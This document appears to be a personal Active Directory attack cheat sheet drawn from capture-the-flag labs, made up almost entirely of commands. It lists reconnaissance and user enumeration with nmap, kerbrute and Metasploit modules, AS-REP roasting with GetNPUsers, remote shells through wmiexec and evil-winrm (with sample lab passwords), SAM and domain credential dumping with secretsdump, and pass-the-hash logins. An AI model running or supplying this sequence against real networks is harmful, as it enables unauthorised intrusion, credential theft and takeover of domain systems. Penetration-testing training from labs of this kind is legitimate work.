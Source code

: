 Active Directory used Tool HAcking;}}

Reconnaissance:

Nmap Scan:

nmap -v -sV -A -T4 <target_ip>

nmap --script smb-enum-domains.nse -p445 <host>

nmap -sU -sS --script smb-enum-domains.nse -p U:137,T:139 <host>

nmap -sT -Pn -n --open <target_ip> -p389 --script ldap-rootdse

nmap --script dns-srv-enum --script-args "dns-srv-enum.domain='example.com'"

nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test' <target_ip>

nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' <ldap.host>


#################################################################################################

Msfconsole:



FOr SMB:

auxiliary/scanner/smb/smb_version

auxiliary/scanner/smb/smb_login

auxiliary/scanner/smb/smb_login_domain

auxiliary/scanner/smb/smb_enum_domain_users

auxiliary/scanner/smb/smb_enum_users

auxiliary/scanner/smb/smb_enum_shares

auxiliary/scanner/smb/smb_enum_sessions


FOr Active Directory:

auxiliary/scanner/active_directory/active_directory_enum

auxiliary/admin/active_directory/active_directory_dcerpc_relay  => Priv Esc

auxiliary/admin/active_directory/active_directory_dfs

auxiliary/scanner/ldap/ldap_search

auxiliary/scanner/ldap/ldap_enum

auxiliary/admin/smb/dcomexec


#############################################################################################

Enum4linux:

enum4linux -a <target_ip or target_domain>  => general scanning


##############################################################################################

FOlder enumeration

smbclient -L <target_ip or target_domain>
  =>smbclient //<target_ip>/file -U <username>

smbmap -u anonymous<username> -H <target_ip>  => Access show 

rpcclient -U "" <target_ip>


################################################################################################


Users Detect and enumeration:

./kerbrute userenum --dc <target_ip> -d <target_domain> /home/kali/Documents/CTF/VulnNetRoastedWindowsCTF/userlist.txt

python3 /usr/share/doc/python3-impacket/examples/lookupsid.py <userdetectname>@<target_ip>  |""username try "anonymous"  => find user
	=>python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@10.10.117.62
	=>impacket-lookupsid vulnnet-rst.local/guest@10.10.111.177


python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -dc-ip <target_ip> vulnnet-rst.local/ -no-pass -usersfile users.txt   => find user's hashes and Hash cracked
	=>python3 GetNPUsers.py -dc-ip 10.10.239.184 spookysec.local/svc-admin -no-pass


find user => smbclient -U vulnnet-rst.local/t-skid //10.10.100.15/NETLOGON 


#########################################################################################################


Connecting to the system remotely:(Remote Connect)


python3 wmiexec.py vulnnet-rst.local/a-whitehat@10.10.99.10
	=>impacket-wmiexec  vulnnet-rst.local/a-whitehat@10.10.111.177

OR


evil-winrm -i <target_ip> -u <username> -p "<password>"
	=>evil-winrm -i 10.10.100.15 -u a-whitehat -p "bNdKVkjv3RR9ht"


Capture all hashes (SAM)

python3 secretsdump.py domain/user:pass@10.10.100.15   
	=>python3 secretsdump.py vulnnet-rst.local/a-white:bNdKVk111111@10.10.100.15   
	=>impacket-secretsdump vulnnet-rst.local/a-whitehat@10.10.100.15
	=>python3 secretsdump.py -just-dc backup@spookysec.local -dc-ip 10.10.239.184


PASS THE HASH ATTACK:

evil-winrm -i <target_ip> -u username  -H "hash"
	=>evil-winrm -i 10.10.100.15 -u administrator -H "c2597747aa5e411111111111111"


impacket-wmiexec <domain>/username@<target_ip> -hashes <hash>
	=>python3 wmiexec.py test.local/john:password123@10.10.10.1
